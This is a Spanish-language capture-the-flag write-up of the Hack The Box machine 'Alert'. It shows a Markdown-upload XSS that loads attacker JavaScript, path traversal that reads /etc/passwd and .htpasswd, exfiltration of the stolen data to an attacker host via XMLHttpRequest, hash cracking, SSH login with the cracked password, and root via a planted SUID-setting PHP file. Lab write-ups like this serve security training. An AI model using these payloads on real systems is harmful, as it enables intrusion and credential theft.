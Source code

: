 ```yaml
---
title: HTB Alert Writeup
date: 2025-04-03 13:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, http, LFI, XSS]
comments: false
image:
  path: /assets/img/HTB-Alert/Alert.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Alert` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y, de paso, gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c1 10.10.11.44
PING 10.10.11.44 (10.10.11.44) 56(84) bytes of data.
64 bytes from 10.10.11.44: icmp_seq=1 ttl=63 time=151 ms

--- 10.10.11.44 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.119/151.119/151.119/0.000 ms
```

Vemos que el `ttl` de la máquina es de `63`, el cual está próximo a `64` por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos el puerto `22 - ssh` y `80 - http`, vemos que en el servidor `web` se aplica `resolución DNS`, y por ende nuestra máquina no sabe qué es `alert.htb`, así que lo agregamos al `/etc/hosts`, para que sepa dónde resolver

```bash
127.0.0.1   localhost
::1     localhost
127.0.0.1   machinename.localhost   machinename
10.10.11.44    alert.htb
```

### Revisando la web

Cuando ingresamos a `http://alert.htb`, nos lleva a `http://alert.htb/index.php?page=alert` y tenemos un apartado para subir un archivo en formato `Markdown`. Podemos ver su contenido y nos da un `link` para compartirlo, pero no podemos explotar nada solo con eso.

![](/assets/img/HTB-Alert/1_Alert.png)

Dentro de `http://alert.htb/index.php?page=about`, nos dicen que hay un administrador que va a estar revisando los mensajes, también está el apartado de contacto, podemos ver si el administrador revisa lo que le mandamos, si nos montamos un servidor con `python` y en el mensaje le adjuntamos nuestra `web` `http:///IP`, vemos que efectivamente quien revisa los mensajes da `clic` en el enlace.

Con `gobuster`, vamos a buscar otros directorios en la `web`.

```bash
gobuster dir -w archivo.txt -u http://alert.htb -x php
```

Algo a destacar es un directorio `/messages` y `/messages.php`, uno no devuelve nada y el otro regresa un código `403`.

## LFI via XSS

Bueno, algo que podríamos hacer es que mediante el archivo en Markdown nosotros definamos que al ver el archivo este resuelva a un archivo `.js` que podemos definir, vamos a intentar cargar la `web` que ve el administrador.

```bash
cat alert.md

<script src="http://YOUR_IP/pwned.js"></script>
```

```bash
cat pwned.js

var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://YOUR_IP/?data=' + btoa(req.responseText), false);
exfil.send();
```

Vemos que efectivamente el administrador tiene otro apartado en la `web` al cual no tenemos acceso.

![](/assets/img/HTB-Alert/2_Alert.png)

Algo a destacar es el hecho de que en `http://alert.htb/messages.php?file=` aquí mediante ese paraámetro `file` solicita unos archivos. No sabemos cómo está montada la `web`, pero lo que podemos hacer es intentar cargar archivos internos de la máquina, editamos el `pwned.js` para ver el `/etc/passwd`

```bash
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../etc/passwd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://YOUR_IP/?data=' + btoa(req.responseText), false);
exfil.send();
```

Vemos que efectivamente se cargan archivos internos de la máquina.

![](/assets/img/HTB-Alert/3_Alert.png)

Podemos cargar el archivo `.conf` de `apache`, ya que este se usa para levantar el servicio `web`, este sería el archivo a solicitar ahora `/etc/apache2/sites-available/000-default.conf`.

![](/assets/img/HTB-Alert/4_Alert.png)

Vemos cosas interesantes aquí. Lo primero es un subdominio `statistics.alert.htb`, que lo podemos agregar al `/etc/hosts`. Dentro de este subdominio, hay un archivo `/var/www/statistics.alert.htb/.htpasswd`, el cual suele contener credenciales cifradas, así que vemos que tiene.

![](/assets/img/HTB-Alert/5_Alert.png)

Efectivamente, vemos a un usuario y su contraseña cifrada, así que lo tratamos de romper con `hashcat`

```bash
hashcat hash_file diccionario.txt --user
```

Nos descifra la contraseña, la cual es `manchesterunited`

## Ganando acceso

Recordemos que el usuario `albert`, figuraba en el archivo `/etc/passwd`, así que vamos a tratar de conectarnos por `ssh` haciendo uso de esa credencial para ese usuario.

![](/assets/img/HTB-Alert/6_Alert.png)

Vemos que se pudo y ya tenemos la primera parte de la máquina. Algo a destacar es que nuestro usuario está en el grupo `management`. Podemos buscar por ese grupo desde la raíz del sistema para ver qué tenemos.

```bash
find / -group management 2>/dev/null
```

## Escalada de privilegios

Tenemos un directorio `/opt/website-monitor`, que parece ser otro servicio `web`, si vemos por los puertos abiertos se nos reporta que internamente la máquina tiene el puerto `8080` abierto, así que con `ssh` lo traemos a nuestro equipo.

```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Vemos que quien está levantando el servicio es el usuario `root`.

![](/assets/img/HTB-Alert/7_Alert.png)

Bueno algo que podemos hacer es ver los permisos que tenemos en dicho directorio, vemos que en `/opt/website-monitor/monitors`, poseemos permisos de interés, podemos crear un archivo en `php` que le dé permisos `SUID` a la `bash`, como el servidor usa `php` este va a entender el archivo y como es root quien ejecuta el servidor es él quien va a cargar el archivo con los privilegios necesarios. Entonces solo debemos dirigirnos a la página `http://localhost:8080/monitors/pwned.php` y confirmar los permisos de la `bash`.

![](/assets/img/HTB-Alert/8_Alert.png)

Vemos que se pudo y ya podemos ver la `root.txt`.
